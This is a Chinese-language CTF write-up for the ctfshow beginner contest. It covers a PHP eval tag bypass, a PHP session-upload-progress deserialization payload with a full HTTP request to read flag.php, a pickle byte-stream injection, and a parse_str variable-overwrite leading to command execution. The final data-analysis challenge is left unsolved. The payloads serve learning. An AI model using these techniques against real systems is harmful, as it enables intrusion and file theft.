


---
title: "ctfshow新手杯"
date: 2025-05-18T16:27:01+08:00
summary: "ctfshow新手杯"
url: "/posts/ctfshow新手杯/"
categories:
  - "ctfshow"
tags:
  - "新手杯"
draft: false
---

# easy_eval

```php
<?php


error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];

if(isset($code)){

  $code = str_replace("?","",$code);
  eval("?>".$code);

}

```

用原标签打不了了，只能换其他标签

```
code=<script language="php"> phpinfo();</script>
```

然后代码执行就行

# 剪刀石头布

要求赢一百局才能拿到flag，show一下source

源码太长了，分段分析一下

```php
<?php
    ini_set('session.serialize_handler', 'php');
    if(isset($_POST['source'])){
        highlight_file(__FILE__);
    phpinfo();
    die();
    }
    error_reporting(0);
    include "flag.php";
    class Game{
        public $log,$name,$play;

        public function __construct($name){
            $this->name = $name;
            $this->log = '/tmp/'.md5($name).'.log';
        }

        public function play($user_input,$bot_input){
            $output = array('Rock'=>'&#9996;&#127995;','Paper'=>'&#9994;&#127995;','Scissors'=>'&#9995;&#127995;');
            $this->play = $user_input.$bot_input;
            if($this->play == "RockRock" || $this->play == "PaperPaper" || $this->play == "ScissorsScissors"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." Draw</div>\n",FILE_APPEND);
                return "Draw";
            } else if($this->play == "RockPaper" || $this->play == "PaperScissors" || $this->play == "ScissorsRock"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Lose</div>\n",FILE_APPEND);
                return "You Lose";
            } else if($this->play == "RockScissors" || $this->play == "PaperRock" || $this->play == "ScissorsPaper"){
                file_put_contents($this->log,"<div>".$output[$user_input].' VS '.$output[$bot_input]." You Win</div>\n",FILE_APPEND);
                return "You Win";
            }
        }

        public function __destruct(){
                echo "<h5>Game History</h5>\n";
        echo "<div class='all_output'>\n";
                echo file_get_contents($this->log);
        echo "</div>";
        }
    }

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="icon" href="icon.png">
    <title>Rock Paper Scissors</title>
    <!-- post 'source' to view something --> 
    <link rel="stylesheet" href="style.css">
</head>

<?php
    session_start();
    if(isset($_POST['name'])){
        $_SESSION['name']=$_POST['name'];
        $_SESSION['win']=0;
    }
    if(!isset($_SESSION['name'])){
        ?>
        <body>
            <h5>Input your name :</h5>
            <form method="post">
            <input type="text" class="result" name="name"></input>
            <button type="submit">submit</button>
            </form>
        </body>
        </html>
<?php exit();
    }

?>


<body>
<?php
echo "<h5>Welecome ".$_SESSION['name'].", now you win ".$_SESSION['win']." rounds.</h5>";
$Game=new Game($_SESSION['name']);
?>
    <h5>Make your choice :</h5>
    <form method="post">
    <button type="submit" value="Rock" name="choice">&#9996;&#127995;</button>
    <button type="submit" value="Paper" name="choice">&#9994;&#127995;</button>
    <button type="submit" value="Scissors" name="choice">&#9995;&#127995;</button>
    </form>

    <?php
    $choices = array("Rock", "Paper", "Scissors");
    $rand_bot = array_rand($choices);
    $bot_input = $choices[$rand_bot];
    if(isset($_POST["choice"]) AND in_array($_POST["choice"],$choices)){
        $user_input = $_POST["choice"];
        $result=$Game->play($user_input,$bot_input);
        if ($result=="You Win"){
            $_SESSION['win']+=1;
        } else {
            $_SESSION['win']=0;
        }
    } else {
        ?>
        <form method="post">
        <button class="flag" value="flag" name="flag">get flag</button>
        <button class="source" value="source" name="source">show source</button>
        </form>
        <?php
        if(isset($_POST["flag"])){
            if($_SESSION['win']<100){
                echo "<div>You need to win 100 rounds in a row to get flag.</div>";
            } else {
                echo "Here is your flag:".$flag;
            }

        }
    }
    ?>
</body>
</html>

```

其实这里的话我看到开头这个ini_set设置就猜到是session反序列化了，看了一下配置，发现用的序列化引擎确实不一样



然后看一下是否需要条件竞争

```
session.upload_progress.cleanup	Off
```

关掉了，那就轻松一点

这里的话很简单，直接读取flag文件就行了，其他的代码都不重要，写poc

```php
<?php
class Game
{
    public $log = "/var/www/html/flag.php";
}
$a = new Game();
echo serialize($a);
//O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}
?>
```

生成链子，然后写个上传文件的html

```php+HTML
<form action="https://153d0900-ae62-44d4-a0c2-f76f6c47d1da.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <!--题目地址 -->
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

然后上传我们的payload

```text
POST / HTTP/1.1
Host: 153d0900-ae62-44d4-a0c2-f76f6c47d1da.challenge.ctf.show
Content-Length: 352
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryH8mc98xrP0GIwfwA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Cookie: PHPSESSID=wanth3f1ag
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryH8mc98xrP0GIwfwA
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

1
------WebKitFormBoundaryH8mc98xrP0GIwfwA
Content-Disposition: form-data; name="file"; filename="|O:4:\"Game\":1:{s:3:\"log\";s:22:\"/var/www/html/flag.php\";}"
Content-Type: text/plain

123
------WebKitFormBoundaryH8mc98xrP0GIwfwA--

```

这里的话PHP_SESSION_UPLOAD_PROGRESS会将内容保存到我们的sessid文件中，然后在回调函数read执行的时候进行反序列化就会触发destruct魔术方法

# baby_pickle

看附件

```python
# Author:
#   Achilles
# Time:
#   2022-9-20
# For:
#   ctfshow
import base64
import pickle, pickletools
import uuid
from flask import Flask, request

app = Flask(__name__)
id = 0
flag = "ctfshow{" + str(uuid.uuid4()) + "}"

class Rookie():
    def __init__(self, name, id):
        self.name = name
        self.id = id


@app.route("/")
def agent_show():
    global id
    id = id + 1

    if request.args.get("name"):
        name = request.args.get("name")
    else:
        name = "new_rookie"

    new_rookie = Rookie(name, id)
    try:
        file = open(str(name) + "_info", 'wb')
        info = pickle.dumps(new_rookie, protocol=0)
        info = pickletools.optimize(info)
        file.write(info)
        file.close()
    except Exception as e:
        return "error"

    with open(str(name)+"_info", "rb") as file:
        user = pickle.load(file)

    message = "<h1>欢迎来到新手村" + user.name + "</h1>\n<p>" + "只有成为大菜鸡才能得到flag" + "</p>"
    return message


@app.route("/dacaiji")
def get_flag():
    name = request.args.get("name")
    with open(str(name)+"_info", "rb") as f:
        user = pickle.load(f)

    if user.id != 0:
        message = "<h1>你不是大菜鸡</h1>"
        return message
    else:
        message = "<h1>恭喜你成为大菜鸡</h1>\n<p>" + flag + "</p>"
        return message


@app.route("/change")
def change_name():
    name = base64.b64decode(request.args.get("name"))
    newname = base64.b64decode(request.args.get("newname"))

    file = open(name.decode() + "_info", "rb")
    info = file.read()
    print("old_info ====================")
    print(info)
    print("name ====================")
    print(name)
    print("newname ====================")
    print(newname)
    info = info.replace(name, newname)
    print(info)
    file.close()
    with open(name.decode()+ "_info", "wb") as f:
        f.write(info)
    return "success"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)

```

看到pickle.load函数第一个想的就是pickle反序列化

分析一下，flask框架，在/路由下接收一个name参数并将name和id传入Rookie中并实例化对象后序列化传入文件中，然后在/dacaiji路由下检测id的值，如果值是0才能拿到flag，但是前面id是不可控的

最后在/change路由下，这里会对name进行重命名newname，说明这里的name可控，也是我们的入手点

先可控pickle序列化后的内容是什么样的

```python
import pickle, pickletools
class Rookie():
    def __init__(self, name, id):
        self.name = name
        self.id = id

name = "test"
id = 1

new_rookie = Rookie(name, id)

file = open(str(name) + "_info", 'wb')
info = pickle.dumps(new_rookie, protocol=0)
info = pickletools.optimize(info)
file.write(info)
file.close()
```

生成test_info文件

```
ccopy_reg
_reconstructor
(c__main__
Rookie
c__builtin__
object
NtR(dVname
Vtest
sVid
I1
sb.
```

这里就是pickle序列化后的字节流了，然后这里的话id是1，我们这时候该怎么去改变id的值呢？

这里可以看到末尾的sb.是结束了的，那我们是否可以构造一个name的值让sb.提前结束呢？

payload

```
test
sVid
I0
sb.
```

本地测试一下

```python
import pickle,pickletools
import base64

name = base64.b64decode("dGVzdA==")

newname = base64.b64decode("dGVzdApzVmlkCkkwCnNiLg==")

file = open(name.decode() + "_info", "rb")
info = file.read()
info = info.replace(name, newname)
file.close()
with open(name.decode() + "_info", "wb") as f:
    f.write(info)
    print("success")
```

```text
ccopy_reg
_reconstructor
(c__main__
Rookie
c__builtin__
object
NtR(dVname
Vtest
sVid
I0
sb.
sVid
I1
sb.
```

可以看到这里是成功写入了，那我们就可以试着打一下

base64编码一下

```
/?name=test
/change?name=dGVzdA==&newname=dGVzdApzVmlkCkkwCnNiLg==
/dacaiji?name=test
```

# repairman

根页面打开一会就跳转了，然后啥线索都没有

然后把mode参数的值从1改为0就跳转到源代码页面了

```php
Your mode is the guest!hello,the repairman! <?php
error_reporting(0);
session_start();
$config['secret'] = Array();
include 'config.php';
if(isset($_COOKIE['secret'])){
    $secret =& $_COOKIE['secret'];
}else{
    $secret = Null;
}

if(empty($mode)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query']);
    if(empty($mode)) {
        echo 'Your mode is the guest!';
    }
}

function cmd($cmd){
    global $secret;
    echo 'Sucess change the ini!The logs record you!';
    exec($cmd);
    $secret['secret'] = $secret;
    $secret['id'] = $_SERVER['REMOTE_ADDR'];
    $_SESSION['secret'] = $secret;
}

if($mode == '0'){
    //echo var_dump($GLOBALS);
    if($secret === md5('token')){
        $secret = md5('test'.$config['secret']);
        }

        switch ($secret){
            case md5('admin'.$config['secret']):
                echo 999;
                cmd($_POST['cmd']);
            case md5('test'.$config['secret']):
                echo 666;
                $cmd = preg_replace('/[^a-z0-9]/is', 'hacker',$_POST['cmd']);
                cmd($cmd);
            default:
                echo "hello,the repairman!";
                highlight_file(__FILE__);
        }
    }elseif($mode == '1'){
        echo '</br>hello,the user!We may change the mode to repaie the server,please keep it unchanged';
    }else{
        header('refresh:5;url=index.php?mode=1');
        exit;
    }
```

审了一下代码，发现`$secret =& $_COOKIE['secret'];`这里是引用赋值，此时`$secret` 和 `$_COOKIE['secret']` 指向同一个值。

因为这里并不知道`$config['secret']`的内容，所以这里只能进入666的分支，但是这里只能通过字母数字执行命令，而且无回显，想rce几乎不可能，那我们只能走向999的分支了，问题是怎么构造呢？

```php
if(empty($mode)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query']);
    if(empty($mode)) {
        echo 'Your mode is the guest!';
    }
}
```

这里有一个变量覆盖的函数，一开始没想到这段代码有什么用，只觉得传一个mode而已，后面无路可走了返回来看，想到可以覆盖变量修改`$config['secret']`的内容，我们试一下

```
?mode=0&config[secret]=1&secret=e00cf25ad42683b3df678c61f42c6bda
```

这里因为可以变量覆盖，所以不需要再往cookie里去传了

输出999，意味着我们进入了这一分支，我们传命令打无回显RCE

```
cmd=cat config.php > flag.txt
```



# 简单的数据分析

有一个/source/model.txt

```python
D = random.randint(100, 200)
pData = [numpy.random.random(D)*100,numpy.random.random(D)*100,numpy.random.random(D)*100]

try:
    data = request.form.getlist('data[]')
    data = list(map(float,data))
    data = numpy.array(data)
except:
    msg="数据转换失败"

try:
    distance =[numpy.linalg.norm(A-data) for A in pData]
    avgdist = numpy.mean(numpy.abs(distance - numpy.mean(distance))**2)
    if avgdist<0.001:
        msg= flag
    else:
        msg= f"您的数据与三个聚类中心的欧拉距离分别是<br><br>{distance}均方差为:{avgdist}"
except:
    msg="未提交数据或数据维度有误"
```

- 生成三个长度为 `D` 的随机数组（`pData`），每个数组的元素是 0 到 100 之间的随机浮点数。然后从表单中获取名为 `data[]` 的输入字段的值，并将其转换为浮点数列表，之后将列表转化成数组
- 然后就是计算欧拉距离了，这里会将计算我们传入的数据data和pData数组中三个聚类中心之间的欧拉距离，并计算这些距离的方均差，如果均方差小于 0.001，返回 `flag`。

不会啊完全看不明白入手点在哪，先搁置一下吧
